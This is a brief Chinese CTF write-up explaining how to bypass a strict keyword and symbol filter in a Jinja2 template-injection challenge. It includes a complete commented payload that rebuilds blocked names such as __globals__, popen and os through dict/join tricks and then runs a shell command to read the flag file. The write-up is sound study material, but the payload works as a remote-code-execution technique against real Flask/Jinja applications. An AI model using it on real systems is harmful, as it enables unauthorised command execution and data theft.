 这次过滤的很严格，比如常见的关键字：class，global，getitem等等

以及一些特殊符号：单双引号、中括号、加减乘除、斜杠等等

不过好在可以通过set方法来处理字符串

我这里就直接上payload来对着说吧

```
http://qkxc2u105bpv62hkormtdb5oc.node.game.sycsec.com/secr3ttt?klf=
{%set b=dict(po=1,p=2)|join%}#用于提取字符串中的某个字符，用法pop(5)
{%set line=(lipsum|string|list)|attr(b)(18) %} #通过lipsum来获取单个下划线
{%set towline=(line,line)|join %} #下划线组合成两个下划线
{%set glbs=((towline,dict(glo=1,bals=2)|join)|join,towline)|join%}#dict合成__globals__关键字
{%set gtitem=(towline,dict(ge=1,titem=2)|join,towline)|join%} #dict合成__getitem__关键字
{%set pp=dict(po=a,pen=2)|join%} #dict合成popen关键字
{%set oo=dict(o=a,s=b)|join%}  #os
{%set rd=dict(re=1,ad=2)|join%} #read 
{%set kg=lipsum|string|list|attr(b)(9)%} #获取空格
{%set bult=(towline,dict(bui=1,ltins=2)|join,towline)|join%} #获取__builtins__
{%set ch=dict(ch=1,r=2)|join%} #获取chr字符串，因为特殊符号斜杠被过滤了，这里只能使用chr来创建 
{%set gt=dict(get=a)|join%} #get
{%set cha=(lipsum|attr(glbs))|attr(gt)(bult)|attr(gt)(ch)%} #创建chr函数
{%set rd=dict(re=1,ad=2)|join%} #read ？上面好像写过了 。。。。。我的
{%set sv=lipsum|string|list|attr(b)(36)%}  #获取数字7，因为斜杠\的ascii是47，这里7是会被检测
{%set f=4%} #获取4
{%set ap=dict(ap=1,p=2)|join%} #我在当前目录没有找到flag，真的flag在/app路由下
{%set n=(f,sv)|join|int%} #组成47的数字，这个int有必要
{%set fl=dict(f=1,l=2)|join%} 
{%set gg=(f,dict(g=1)|join)|join%}  #flag的名字叫 fl4gfl4gfl4g
{%set fg=(fl,gg,fl,gg,fl,gg)|join%}  #这连着的三个应该可以优化，我写的有点臃肿
{%set shell=((dict(ca=1,t=2)|join,kg,cha(n))|join,ap,cha(n),fg)|join%}#cat /app/fl4gfl4gfl4g
{{lipsum|attr(glbs)|attr(gtitem)(oo)|attr(pp)(shell)|attr(rd)()}}  #执行完
```
